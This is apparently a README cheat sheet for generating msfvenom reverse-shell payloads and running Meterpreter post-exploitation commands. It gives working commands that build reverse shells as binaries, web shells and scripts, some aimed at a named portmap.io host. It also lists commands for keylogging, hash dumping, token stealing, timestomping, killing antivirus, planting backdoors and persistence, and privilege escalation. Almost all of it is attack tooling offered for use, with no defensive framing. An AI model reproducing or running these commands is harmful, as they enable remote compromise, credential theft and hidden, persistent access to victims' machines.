 # Meterpreter-msfvenom
## 1.Msfvenom - generating shellcode
### Binaries
Linux:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

OR

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

```
Windows:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

OR

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

E.g 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=7229 -a x86 -f exe > /var/www/html/Shell.exe

OR

msfvenom -p windows/meterpreter/reverse_tcp -e x86/Hackeraj_Virus_Alert -i 5 -b '\x00' LHOST=Hackeraj-59554.portmap.io LPORT=59554 -f exe > /root/Desktop/Shell.exe
```
Mac:
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
OR
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
### Web Payloads

PHP:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
ASP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
JSP:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
WAR:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
### Script Payload
Python:
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
Bash:
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
Perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
## 2.Meterpreter
Process:
```
getuid              hows user id
getpid              shows meterpreter process id
ps              ists running processes
migrate [ps]            migrates to given process (one that wont end/crash)
```
KeyLog: Ensure you are monitoring the correct session (Explorer.exe/WinLogin.exe)
```
idletime            shows how long machine has been idle for
keyscan_start           starts the key logger
keyscan_dump            outputs captured data
keyscan_stop            stops the keylogger
```
Channels: This allows you to do more than one thing at a time in meterpreter
```
execute -f cmd.exe -c       opens a new cmd.exe and creates a new channel for it
channel -l          lists the open channels
read [channel]          outputs data from channel
interact [channel]      allows you to jump into the channel
write [channel]         sends data to the channel
close [channel]         kills the channel
```
Session: Session0 is the local desktop. Session1+ are rdp sessions.
```
enumdesktops            shows currently open desktops such as winlogin etc
getdesktop          shows current desktop session meterpreter is in
setdesktop          changes to an already open desktop session
uictl disable keyboard      disables the keyboard of the desktop session
```
FileEdit: Ability to edit files atributes such as MACE
```
timestomp file.txt -c "30/12/1980 12:12:34" changes file stamp of file
timestomp file.txt -f sourcefile.txt        copys timestamp from sourcefile.txt
use priv            to load the priv extras
hashdump            to dump the SAM file :-)
```
Tokens: Incognito allows token stealing and other token functions
```
use incognito           loads the incognito into meterpreter
list_tokens -u          shows stealable tokens
impersonate_token       allows a token to be stolen
steal_token [psid]      allows ability to steal token of a process
rev2self            reverts to origional token
run post/windows/gather/cachedump   gets cached domain hashes
need to wget http://lab.mediaservice.net/code/cachedump.rb to framework3/modules/post/windows/gather
```
Sniffer: Allows promiscuos mode to be enabled ;-)
```
use sniffer         loads the sniffer functions
sniffer_interfaces      list interface 1,2,3,4,5,6,etc
sniffer_start [n]       starts the sniffer for the interface
sniffer_stats [n]       lists packets, time, etc..
sniffer_dump [n] file.pcap  dumps the capture locally
sniffer_stop            you guessed it ;-)
```
Meterpreter Scripts: These scripts perform various functions on the victim
```
run checkvm         checks if the target is a vm
run credscollect        dumps hashes and tokens to screen
run enum_firefox        dumps temp internet files from firefox - cookies, passwords, etc :-)
run get_application_list    shows installed applications
run killav          trys to stop all known AV progs
run get_local_subnets       enumerates local subnet info
run metsvc          creates a backdoor
run persistence         survices a reboot (without admin or system)
run schedulme -e file.exe -m 30 you'll need to man load the meterpreter.exe payload
run kitrap0d            allows priv escalation using CVE-2010-0232
```
[Facebook](https://www.facebook.com/Hackeraj/)
[Twitter](https://twitter.com/Hackeraj_np/)
[Instagram](https://www.instagram.com/hackeraj/)
[Youtube](https://www.youtube.com/Hackeraj/)
